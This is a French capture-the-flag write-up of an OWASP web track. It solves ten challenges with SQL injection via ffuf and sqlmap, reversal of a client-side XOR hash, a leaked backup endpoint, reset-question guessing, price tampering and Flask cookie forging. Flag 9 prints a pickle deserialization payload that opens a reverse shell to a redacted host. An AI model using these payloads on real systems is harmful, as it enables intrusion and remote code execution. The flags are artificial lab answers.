










# OWASP Track
## Flag 1: Injection: 1

### Information:
- http://REDACTED
- Database: sqlite3

Je ne suis pas le meilleur en sql, en equipe je n'aurais jamais pris ce challenge.


Et je deteste vraiment le SQL! Je tente simplement avec `ffuf` et une petite liste
```
ffuf -u "http://REDACTED/login?user=FUZZ&password=" -w ./SecLists/Fuzzing/SQLi/quick-SQLi.txt
```
Voici des valeurs de `user` qui me donne 200 OK

```
'&'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 60ms]
"*"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 61ms]
'-'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 62ms]
admin' #                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 62ms]
admin'/*                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 64ms]
"^"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 83ms]
"&"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 87ms]
'*'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 107ms]
admin" #                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 43ms]
admin"/*                [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 45ms]
"-"                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 13ms]
'^'                     [Status: 200, Size: 1262, Words: 199, Lines: 48, Duration: 16ms]
```
`admin"/*` dans le champ user me laisse passer

Et je suis authentifier
```
Servers Inventory (FINCTF-SQL_1NJ3CT10N_3946a02a12)
```
## Flag #2: Inejection 2

### Information
On parle de la table `servers` ainsi que de la colonne `comment`
Bref je DETESTE le sql. Donc encore une fois je prend l'outils
Je dump la table serveur avec `sqlmap` (ne pas oublier de lui passer le cookie de session)

```
Database: <current>
Table: servers
[10 entries]
+--------------+---------+---------------------------------------------------------+----------------------------+
| ip           | os      | comment                                                 | hostname                   |
+--------------+---------+---------------------------------------------------------+----------------------------+
| 10.13.37.99  | Linux   | Management Linux server FINCTF-SQL_1NJ3CT10N_1b34849755 | pladm100.organization.tld  |
| 10.13.37.100 | Windows | Management Windows server                               | pwadm9090.organization.tld |
| 10.13.37.98  | AIX     | Old server, not long to live.                           | paweb504.organization.tld  |
| 10.10.10.43  | Linux   | Dev env                                                 | dlappv43.organization.tld  |
| 10.10.10.44  | Linux   | Dev env                                                 | dlappv44.organization.tld  |
| 10.10.10.45  | Linux   | Dev env                                                 | dlappv45.organization.tld  |
| 10.10.10.42  | Linux   | Dev env                                                 | dlappv42.organization.tld  |
| 10.10.10.41  | Linux   | Dev env                                                 | dlappv41.organization.tld  |
| 10.13.37.201 | Linux   | Production server zone 1                                | plapp1.organization.tld    |
| 10.13.37.202 | Linux   | Production server zone 2                                | plapp2.organization.tld    |
+--------------+---------+---------------------------------------------------------+----------------------------+
```

## Flag3: Injection: 3
On me parle d'une table inconnu. Encore une fois avec sqlmap je dump les tables

```
<current>
[3 tables]
+---------+
| secrets |
| servers |
| users   |
+---------+
```

```
Database: <current>
Table: secrets
[1 entry]
+---------------------------------+
| ca2224cac7d5c9bcdd75            |
+---------------------------------+
| FINCTF-SQL_1NJ3CT10N_5ebcff0d6d |
+---------------------------------+
```
Enfin terminer avec le SQL!

## Flag 4: Server Side Request Forgery
### Information:
- http://REDACTED
- guest:guest comme nom d'utilisateur

Bon je ne sais pas si ce challenge est briser dans l'instance de write-up mais j'ai access directement a la page admin. 

Mais l'application ressemble a ceci:



Si je me souviens bien /admin n'est accessible que depuis `127.0.0.1`

Donc..



## Flag 5: Cryptographic Failures

### Information:
- http://REDACTED
- guest:guest

App:


Quand je click sur generate hash, aucune requete n'est envoyer au serveur donc je valide la source
```javascript
function funnyOR(data, key) {
    //Lol, saw this hilarious OR function in the NSA’s go-to encryption algorithm—pretty sure it’s *super* secure.
    let result = '';
    for (let i = 0; i < data.length; i++) {
        result += String.fromCharCode(data.charCodeAt(i) ^ key.charCodeAt(i % key.length));
    }
    return result;
}

function superSecureHashFunction(inputValue) {
    /* Yo, this *superSecureHashFunction()* legit took me a year to build!

    **Documentation:**
    - Takes a password as input and spits out an encrypted one (super secure, trust me!).
    - I used some funky variable names to make the hash extra secure.
    - **WARNING:** *zetaPass* is crucial!! Don’t mess with it!
    */
    let initString = "[ENCRYPTED]" + inputValue;
    let calcAlpha = initString.length * 2; 
    let betaValue = Math.floor(Math.random() * 10);
    let omegaVar = initString + betaValue;
    initString = btoa(initString);
    let deltaShift = calcAlpha % 7;
    let epsilonCalc = Math.pow(deltaShift, 3);
    const zetaPass = "superS3cret!";
    initString = btoa(initString);
    const etaKey = "S4CreT%";
    let thetaResult = funnyOR(initString, etaKey);
    let sigmaValue = thetaResult.length * 42;
    let omegaConcat = thetaResult + sigmaValue.toString();
    let rhoEncoded = btoa(thetaResult);
    let tauString = "ObfuscationIsFun!";
    let kappaFactor = tauString.length * Math.random();
    return rhoEncoded + ".secure";
}


function finalgenerationPasswordEncryptionFunction() {
    /* Aight, so here's where it generates the final encrypted password. Check out the docs below.
    Documentation:
    - Return hash
    */
    const password = document.getElementById('passwordInput').value;
    const hash = superSecureHashFunction(password);
    document.getElementById('hashOutput').innerText = `Hash: ${hash}`;
}
/*
I'm rly hyped bout this function! Check out this hash, it's wild right?
BU4BJTFlYCtnLwIzBkkZcxYZPCx3YnoVPDAGcgFiLEEwAGMYYy8kIgF9N2cOJw4jcD5AMCAjM1IEYAEmMwxNBGIUAioOTmZFGggvNUQ/RDcmCCR3HlgvJzI5FBxVKB1Q.secure
*/
```
```
BU4BJTFlYCtnLwIzBkkZcxYZPCx3YnoVPDAGcgFiLEEwAGMYYy8kIgF9N2cOJw4jcD5AMCAjM1IEYAEmMwxNBGIUAioOTmZFGggvNUQ/RDcmCCR3HlgvJzI5FBxVKB1Q.secure
```
Donc on doit retrouver la string original.
2 options, 
 - Brute force
 - Reverse la fonction de crypto

On va prendre la derniere option!

```python
import base64

def funnyOR(data, key):
    result = ''
    for i in range(len(data)):
        result += chr(ord(data[i]) ^ ord(key[i % len(key)]))
    return result

def reverse(hash):
    # On enleve le .secure, sa nous donne rhoEncoded
    rhoEncoded = hash[:-7]
    # decode base64 de rhoEncoded sa nous donne thetaResult
    thetaResult = base64.b64decode(rhoEncoded).decode('latin-1')

    # On reverse le XOR avec la cle "S4CreT%"
    etaKey = "S4CreT%"
    double_b64 = funnyOR(thetaResult, etaKey)

    # On decode 2 fois en b64
    return base64.b64decode(base64.b64decode(double_b64).decode('utf-8')).decode('utf-8')
target_hash = "BU4BJTFlYCtnLwIzBkkZcxYZPCx3YnoVPDAGcgFiLEEwAGMYYy8kIgF9N2cOJw4jcD5AMCAjM1IEYAEmMwxNBGIUAioOTmZFGggvNUQ/RDcmCCR3HlgvJzI5FBxVKB1Q.secure"
print(reverse(target_hash))
```
Ce qui nous donne `[ENCRYPTED]FINCTF{CRYPT0GR4FIC_F4ILUR3_676f6f646a6f62}`

## Flag 6: Broken Access Control

### Information:
- http://REDACTED
- guest:guest

Dans les commentaires de la page web
```html
    <!-- TODO: add robots.txt -->
```


http://REDACTED:9901/robots.txt contient `Disallow: /api/admin/backup`

Qui contient
```
[{"password":"84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec","username":"guest"},{"password":"0dceaa0f95925975e3c87ead6fbaf51cdb230a326c630f58e06ffb49821efc78","username":"admin"},{"password":"FINCTF{BR0K3N_4CC3SS_C0NTR0L_fa6463350a599f688be4}","username":"flag"}]
```
## Flag 7: Identification Auth Failures

### Information:
- http://REDACTED



On a une page de login qui contient un formulaire de type "forgot password"

Nous avons 3 utilisateur
- john
- admin
- cryptodude



Grosso modo en lisant les blog post nous avons des informations sur `john`
Pet name: sniff 
Favorite food: raclette 
Name of the name: john (J'ai simplement essayer le nom du compte)

Nous avons 10 seconde pour entree les informations

La page nous informe que
```Your new password is: e94dad5484aef023```

```
Welcome john.
This application is under heavy development and testing for version 1.0.
Therefore most of its features are not available yet!

Your Flag:
FINCTF{1D3NT1F1C4T10N_F41LUR3S_73656372657473}
```

## Flag 8: Insecure Design

### Information:

- http:REDACTED
- guest:guest
- cvv == 911



Nous avons donc un magasin, et je ne sais pas pour vous mais j'ai toujours voulu avoir un morceau de nuage ou un pizza laptop



Donc, le total de nos emplette.. ben c'est le client qui l'envoie.. `Insecure Design` indeed!

J'edite le tout avec burp
```
total=0&cvv=911
```

```
Congratulations! Here is your flag: FINCTF{1NS3CUR3_D3SIGN_73656372657473}
```

## Flag 9: Software Integrity Failures

### Information:
- http://REDACTED
- guest:guest



On peu upload un fichier, je lui envoie donc du garbage
Et.. je fais planter l'application on m'acceuil avec  `Werkzeug powered traceback interpreter.` 
Dans la stack trace je vois que l'application utilise `pickle`


Et bien aucun probleme! 
```python
import pickle
import base64

class ReverseShell:
    def __init__(self):
        self.subject = '''
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("REDACTED", REDACTED))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/bash", "-i"]);
'''
    
    def __reduce__(self):
        return (exec, (self.subject,))

payload = pickle.dumps(ReverseShell())
encoded_payload = base64.urlsafe_b64encode(payload).decode()
print(encoded_payload)
```



Normalement le flag etait dans ce fichier :D

## Flag 10: Security Misconfiguration
### Information:
- http://REDACTED
- guest:guest

Il n'y a rien dans l'application, le code source montre
```html
  <!-- <a class="hover:text-green-900" href='/admin'> admin </a> -->
```
Je vais donc dans /admin, sa me redirige vers /home. 
Je me logout, et je vais sur /admin
Encore une fois je suis sur le stack trace de FLASK
```
app.config["SECRET_KEY"] = "77c4a9f25dc85c64473800c4db4260c8d2dbc748"
```
Bon ben je vais me forger un jeton pour admin!
```
owasp_sec_misconfig_s=eyJ1c2VyIjoiZ3Vlc3QifQ.ZyJf9g.NmXD1NjWuNBYbTPWVmWP6Sd92_A
```

```bash
flask-unsign --decode --cookie eyJ1c2VyIjoiZ3Vlc3QifQ.ZyJf9g.NmXD1NjWuNBYbTPWVmWP6Sd92_A
{'user': 'guest'}
```

```
flask-unsign --sign --cookie "{'user': 'admin'}" --secret 77c4a9f25dc85c64473800c4db4260c8d2dbc748
eyJ1c2VyIjoiYWRtaW4ifQ.ZyJgaw.0BYtf22_fTtcau4Jt4ML0RFCgtI
```

```
 <div class="grid justify-center bg-zinc-700">
    <!--TODO: disable guest default account -->
    <h1 class="m-5 text-slate-500"> Welcome <b class="text-green-600">admin</b>. </h1>
    <h1 class="m-5 text-slate-500"> FINCTF{S3CUR1TY_M1SC0NF1GUR4T10N_60afeb1d29c5a5b25206} </h1>
    <p class="m-5 text-green-600"> 
      Hello my dear Administrator !
    </p>
  </div>
```
